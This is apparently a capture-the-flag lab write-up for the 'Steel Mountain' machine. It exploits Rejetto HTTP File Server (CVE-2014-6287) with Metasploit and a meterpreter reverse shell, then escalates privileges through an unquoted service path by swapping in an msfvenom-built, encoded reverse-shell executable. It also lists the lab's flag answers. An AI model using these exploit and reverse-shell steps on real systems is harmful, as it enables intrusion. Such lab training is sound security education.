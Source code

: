 ![c9030a2b60bb7d1cf4fcb6e5032526d3](https://github.com/user-attachments/assets/1fccd7c7-a3e3-414c-85f9-337b55ee033d)
 
# Steel Mountain Walkthrough
## TASK 1 - Introduction

Who is the employee of the month?

![Screenshot](https://github.com/user-attachments/assets/30f54f4f-514e-4272-8cc1-bfa085274d4d)

(Bill Harper)

## TASK 2 - Initial Access

Scan the machine with nmap. What is the other port running a web server on?

![Firefox_Screenshot_2025-03-26T17-56-36 928Z](https://github.com/user-attachments/assets/28807218-6b07-4918-9432-85ef064207b6)

(8080)

Take a look at the other web server. What file server is running?

Open the port 8080 and notice the file server link.

(Rejetto HTTP File Server)

What is the CVE number to exploit this file server?

When you did research on google, you can find CVE number about Rejetto HTTP File Server 2.3: https://www.exploit-db.com/exploits/39161

(2014-6287)

Use Metasploit to get an initial shell. What is the user flag?

1) msfconsole
2) search 2014-6287
3) use 0
4) show options

![Firefox_Screenshot_2025-03-26T20-44-31 403Z](https://github.com/user-attachments/assets/495e8e23-9302-487f-beeb-a6046e0f6b0f)

5) We have to set RHOSTS and RPORT

set RHOSTS $IP

set RPORT 8080

6) set payload windows/meterpreter/reverse_tcp
7) run
8) C:\Users\bill\Desktop // cat user.txt

![Firefox_Screenshot_2025-03-26T21-20-35 228Z](https://github.com/user-attachments/assets/b6350317-e3d9-4aaf-b85b-2f718cd37ddb)

(b04763b6fcf51fcd7c13abc7db4fd365)

## TASK 3 - Privilege Escalation

Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?

1) Download the script (https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1)

2) Upload the script from meterpreter session

![Untitled](https://github.com/user-attachments/assets/0f37002b-a7e0-41a2-9817-594243222e8c)

3) Load powershell in meterpreter (type "load powershell" into meterpreter)

4) Type . .\Powerup.ps1

5) Type Invoke-AllChecks

![Untitled](https://github.com/user-attachments/assets/d880fac8-5106-4520-8b72-e02d993c38dd)

(AdvancedSystemCareService9)

What is the root flag?

1) Use msfvenom to generate a reverse shell as an Windows executable. (msfvenom -p windows/shell_reverse_tcp LHOST=your_ip LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe)

![Untitled](https://github.com/user-attachments/assets/288ddbd5-7d64-404c-9692-fffcaede24c0)

2) Open shell and stop the service which using ASCService.exe

sc stop AdvancedSystemCareService9

![Untitled](https://github.com/user-attachments/assets/573a1849-6339-43c0-b846-9610b767b322)

After that exit the shell.

3) Go to C:\Program Files (x86)\IObit\Advanced SystemCare and upload ASCService.exe file which we generated

![Untitled](https://github.com/user-attachments/assets/ba600259-e337-42b9-a582-8e0f04088ed6)






(9af5f314f57607c00fd09803a587db80)

## TASK 4 - Access and Escalation Without Metasploit

What powershell -c command could we run to manually find out the service name? 

(powershell -c "Get-Service")



